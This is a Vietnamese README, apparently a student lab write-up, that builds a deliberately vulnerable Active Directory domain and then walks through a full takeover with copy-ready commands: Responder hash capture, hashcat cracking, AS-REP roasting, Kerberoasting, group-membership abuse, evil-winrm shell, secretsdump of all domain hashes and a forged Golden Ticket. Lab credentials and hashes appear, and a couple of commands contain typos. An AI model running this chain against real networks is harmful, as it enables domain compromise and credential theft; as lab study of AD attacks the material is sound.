 # Windows-Privilege-Escalation
Leo thang đặc quyền để có được tài liệu và quyền 

# Thay đổi chính sách thực thi

Các bước cài đặt:
1) ***Thay đổi chính sách***
```Bash
Set-ExecutionPolicy -ExecutionPolicy Bypass
```
![Thay đổi chính sách](https://github.com/user-attachments/assets/c33adb05-6415-40df-8621-c9ff7fc3f181)

2) ***Cài đặt dịch vụ Active Directory Domain Services (AD DS) trên Windows Server***
```Bash
Install-windowsfeature AD-domain-services
```
![Cài Active Directory Domain Services_Collecting Data](https://github.com/user-attachments/assets/01620801-37e3-4b78-af53-2f50be0b48e7)

____
![Success](https://github.com/user-attachments/assets/59533700-d433-4fb8-b63b-53eecf3a80d8)

3) ***Nạp module ADDSDeployment để sử dụng các lệnh liên quan đến triển khai ADDS***
```Bash
Import-Module ADDSDeployment
```
![Nạp Module ADDS](https://github.com/user-attachments/assets/2ecbffc8-363a-4e24-a454-cbc85088105c)

4) ***Tạo Active Directory Forest ATTT.ptit***
```Bash
Install-ADDSForest -CreateDnsDelegation:$false -DatabasePath "C:\Windows\NTDS" -DomainMode "7" -DomainName "ATTT.ptit" -DomainNetbiosName "ATTT" -ForestMode "7" -InstallDns:$true -LogPath "C:\Windows\NTDS" -NoRebootOnCompletion:$false -SysvolPath "C:\Windows\SYSVOL" -Force:$true
```
![Installing-ADDSForest](https://github.com/user-attachments/assets/7462772e-540d-407c-a893-39f74c17c8a6)
___
![Success_And_need_restart](https://github.com/user-attachments/assets/a8230e1e-9dcb-4d12-ae93-7b2d64306744)

__
Đã có domain ATTT.ptit

![ATTT.ptit](https://github.com/user-attachments/assets/39133b7c-2cd4-42f6-96f0-970125d8f185)

5) ***Tạo cấu trúc AD dễ bị tấn công.
   Tạo người dùng, nhóm với quyền hạn không an toàn***
![Nạp Module vulnadplus.ps1](https://github.com/user-attachments/assets/1b2e5acb-eaaa-4b49-9a0f-757b737e2a43)
____ Thành công
![Success](https://github.com/user-attachments/assets/bf3d7992-f6d6-47a0-a301-a178667e173a)


# Quét lỗ hổng, lấy thông tin người dùng cơ bản
Máy attack : Kali
Máy victim : Window Server
Ta biết hai máy này cùng dải địa chỉ
IP của Kali : 192.168.168.2
![IP_Kali](https://github.com/user-attachments/assets/068bf831-fae0-4a48-9b87-fa3c6019f200)
___Nmap
```Bash
nmap 192.1689.168.0/24
```
![Nmap](https://github.com/user-attachments/assets/e7594472-1d24-4d5e-a7ff-7dc3d319766a)
Quét ra 4 địa chỉ :
- 192.168.168.1
- 192.168.168.13
- 192.168.168.254
- 192.168.168.2

__Dùng Crackmapexec , quét giao thức SMB trong dải địa chỉ 192.168.168.0/24
```Bash
crackmapexec smb 192.168.168.0.24
```
![crackmapexec](https://github.com/user-attachments/assets/1784a766-5d30-4f81-9dad-88af20ece2e8)
Ta thấy có máy SERVER_PTIT __ IP 192.168.168.13

__ Dùng Responder xem có ai viết sai tên trong quá trình tìm kiếm domain__
Khi người dùng nhập thiếu tên, ví dụ chỉ nhập ATTT và thiếu .ptit
DNS không phân giải được địa chỉ và hỏi các mạng xung quanh xem có biết địa chỉ "ATTT" ở đâu không
Responder sẽ trả lời nó biết, yêu cầu nạn nhân cung cấp thông tin
Từ đó ta có mã hash và tên nạn nhân

```Bash
sudo responder -I eth0 -d -w -v
// -I eth0: giao diện eth0
// -d : mode domain, tạo môi trường giả lập DNS, SMB để lừa các máy tính khác trong mạng
// -w: giả làm máy chủ web
// -v: verbose(chi tiết) : hiển thị thông tin chi tiết
```
![responder](https://github.com/user-attachments/assets/9467d5bc-b1b6-4f2e-8869-2ee313924553)

___Win10 nhập tên domain không đủ
![Tên domain chưa đủ](https://github.com/user-attachments/assets/66b18bb2-2b84-499c-a549-6c5ca6f8a896)

___ Ở phía Kali
![Có mã hash](https://github.com/user-attachments/assets/23aac742-e09b-4620-a4bc-2877ee5dad91)

Ta có mã hash của nạn nhân đầu tiên
Ta lưu vào hash.txt
Giải mã bằng hashcat , lưu mật khẩu vào pass.txt
```Bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt -o pass.txt
```
![Hashcat](https://github.com/user-attachments/assets/8ee622ce-856b-43c9-ab29-a9ad41489ae6)

___ cat pass.txt
![cat pass.txt](https://github.com/user-attachments/assets/aa582bcc-010b-489c-9260-eb78729333bb)

***Liệt kê người dùng trong domain***
```Bash
ldapsearch -x -H ldap://192.168.168.13 -b "DC=ATTT,DC=ptit" | grep "userPrincipalName" | awk 'NF{print $NF}' | awk -F '@' '{print $1}' > users
```
![LdapSearch](https://github.com/user-attachments/assets/6cdfaea5-107b-4c37-9ea6-f86e38bd1bb3)

___ Có một vài Domain Admin khi tạo tài khoản sẽ ghi mật khẩu ở phần ghi chú
Nên ta có thể lọc đầu ra để xem phần description
![description](https://github.com/user-attachments/assets/661ff9bc-8458-4fde-8bed-627df971bbf2)
Ta thấy có 3 mật khẩu cùng với 4 tài khoản có mật khẩu mặc định của công ty
Ta lưu những mật khẩu này vào password.txt để dùng sau
![password.txt](https://github.com/user-attachments/assets/341e3e70-e863-4e36-a3d3-1a4f515958bd)

***Tấn công không yêu cầu xác thực trước***
```Bash
impacket-GetNPUsers ATTT.ptit/ -no-pass -usersfile users -format hashcat -outputfile domainhash.txt -dc-ip 192.168.168.13
// impacket: công cụ khai thác AS-REP Roasting
// NPUsers: tài khoản "Do not require Kerberos preauthentication"
// -no-pass: truy vấn mà không cần cung cấp mật khẩu
// users: file users có được từ việc chạy ldapsearch
// -format hashcat: định dạng đầu ra Hashcat để có thể bẻ khóa sauu đó
```
![GetNPUsers](https://github.com/user-attachments/assets/d9625687-845e-4f1a-863c-8bb175d730e2)

***Dùng hashcat giải mã những tài khoản có thể tấn công NO Require Preauthentication***
```Bash
hashcat domainhash.txt /usr/share/wordlists/rockyou.txt -o passdomain.txt
```
![NoPreauthentication](https://github.com/user-attachments/assets/bcd3d6f0-86f6-40c2-866b-f56be0cad87c)
Ta có cách mật khẩu là : andrew, hardcore,...

***Thu thập thông tin người dùng, nhóm, máy tính, OU, GPO từ Acitve Directory***
```Bash
ldapdomaindump 192.168.168.13 -u 'ATTT.ptit\Dasya.Hanni' -p 'q1w2e3r4t5'
```
![OU_GPO](https://github.com/user-attachments/assets/acf60f1e-0fe0-4f0a-ad9f-b9af25fe632f)
___Đầu ra là những file json để phân tích
domain_users.json – Danh sách người dùng trong AD.
domain_groups.json – Danh sách các nhóm trong AD.
domain_computers.json – Danh sách máy tính trong domain.
domain_admins.json – Danh sách tài khoản quản trị viên.
group_memberships.json – Mối quan hệ giữa các nhóm và thành viên.
domain_gpos.json – Danh sách Group Policy Objects (GPO).
domain_trusts.json – Danh sách các mối quan hệ trust giữa các domain.

***Blood Hound _dữ liệu đồ thị***
Ta dùng BloodHound để tìm tài khoản và đường đi để leo thang đặc quyền
1) Thu thạp dữ liệu domain cho BloodHound
```Bash
bloodhound-python -d ATTT.ptit -u Dasya.Hanni -p 'q1w2e3r4t5' -c all --dns-tcp -ns 192.168.168.13
```
__Ta có các file .json để up lên BloodHound
![FileBloodHound](https://github.com/user-attachments/assets/11c79ba0-726c-4523-ac8b-3e947c7e1ad4)

___ Khởi chạy neo4j( Graph Database0
![neo4j](https://github.com/user-attachments/assets/24d35334-5af3-488e-bc12-d2280c90a5c5)
__ Vào http://localhost:7474/
__ Mở BloodHound  và upload file 
__Ta đánh dấu những tài khoản đã có mật khẩu là Owned cho dễ nhận biết
![Owned](https://github.com/user-attachments/assets/6c0ccb9e-4e64-46eb-a107-1f63f0466721)
__ Dùng hàm List all Kerberoastable Accounts 
để liệt kê những người dùng có thể tấn công Kerberoastable
![Kerberoastable Accounts](https://github.com/user-attachments/assets/66fb60a9-2071-4038-ab3a-612c11b97338)
__Lấy mã hash của những tài khoản có quyền cao hơn:
```Bash
impacket-GetUserSPNs -request -dc-ip 192.168.168.13 ATTT.ptit/Dasya.Hanni:q1w2e3r4t5 -o kerberoastable.txt
```
![User quyền cao](https://github.com/user-attachments/assets/badf235d-b727-495c-87d1-2913311ea646)

__ Chạy hashcat cùng password-list để có mật khẩu của những tài khoản quyền cao:
```Bash
hashcat kerberoastable.txt 10-million-password-list-top-1000000.txt -o passdomain.txt
```
![Pass Domain](https://github.com/user-attachments/assets/ae6bd25b-710b-47ac-b63f-ab8f942cc062)
__ta được 2/4 tài khoản

***Leo thang đặc quyền***
Dùng hàm Shortest Paths from Kerberoastable Users
Chọn mục tiêu là server ATTT.ptit
Tài khoản thì ta thấy có HTTP_SVC là có kết quả trả về
![Hàm shortest](https://github.com/user-attachments/assets/0b7227f0-fb5e-44bb-9c6e-f08ba0102ef9)
_Xem trợ giúp bằng chuột phải vào những cung giữa các nốt để có thể leo thang dần dần
![Help](https://github.com/user-attachments/assets/2f2318dc-3cb4-40c3-91d4-dbefc4a14eb6)

__Ta add thành công HTTP_SVC vào nhóm OFFICE ADMIN 
```Bash
net rpc group addmem "OFFICE ADMIN" "HTTP_SVC" -U "ATTT.ptit/HTTP_SVC%panther" -S 192.168.168.13
```
```Bash
///Kiểm tra xem member đã có trong group chưa
net rpc group members "OFFICE ADMIN" -U "ATTT.ptit/HTTP_SVC%panther" -S 192.168.168.13
```
![ADD member](https://github.com/user-attachments/assets/e0c6f41f-d555-4d17-a865-e1d79202f1c6)



***Evil winrm***
Lấy shell , và có thể tải mã độc, download file,...
```Bash
evil-winrm -i 192.168.168.13 -u HTTP_SVC -p panther
```
![Success](https://github.com/user-attachments/assets/43b71a46-ff17-4027-bd58-e064fe1ef1ed)
Tôi đã chạy whoami

***Secret Dump***
Lấy mã hash tất cả tài khoản trong domain:
```Bash
impacket-secretsdump ATTT.ptit/HTTP_SVC:panther@192.168.168.13 > credentials.txt
```
![Credential](https://github.com/user-attachments/assets/27f3e17f-6212-4cfa-9586-0cf9dcee2f37)

***Golden ticket***
Lọc mã hash của tài khoản krb
__ Lấy mã hash của tài khoản Admin
```Bash
cat credentials.txt| grep "Admin"
```
![Admin](https://github.com/user-attachments/assets/c855eafb-c4db-478e-9940-81504b91c23c)
__Dùng Lookupsid và có được DomainSID:
```Bash
impacket-lookupsid ATTT.ptit/Administrator@192.168.168.13 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:d6ddea1e46488f7caae44c2e3ad9368d| grep -i 'domain sid'
```
![Domain SID](https://github.com/user-attachments/assets/2d3ae89a-de56-4f8c-9815-3a764f5eacec)

__Lấy mã hash của krbtgt:aes128 
```Bash
cat credentials.txt| grep "krb"
```
![krb](https://github.com/user-attachments/assets/bb84394f-5b7b-4757-81e5-afb3d9129530)


***Ticketer***
Kết hợp mã hash và SID  để có Golden Ticket
```Bash
impacket-ticketer -aesKey 5cada99bd47933055f956d22db5808a4 -domain-sid S-1-5-21-485854576-312391858-2906987710 -domain ATTT.ptit Administrator
```
![Ticketer](https://github.com/user-attachments/assets/4547eaeb-a674-4403-abfa-9c8d4fd46019)

___ Export ticket vừa lấy được
```Bash
export KRB5CCNAME=Administrator.ccache
```
![export](https://github.com/user-attachments/assets/05b24e6e-2465-42e6-a9dd-4afdbefb3316)

__ Tải krb5-user để có thể dùng klist kiểm tra ticket
```Bash
sudo apt install krb5-user
```
![krb5-user](https://github.com/user-attachments/assets/87bea2f8-fee4-42d3-99ee-b7b61298bd82)

__Kiểm tra vé
```Bash
klist
```
![klist](https://github.com/user-attachments/assets/1d26acf7-5980-4a4c-8cdf-275f56a47eb1)

***Dùng Ticket để đăng nhập***








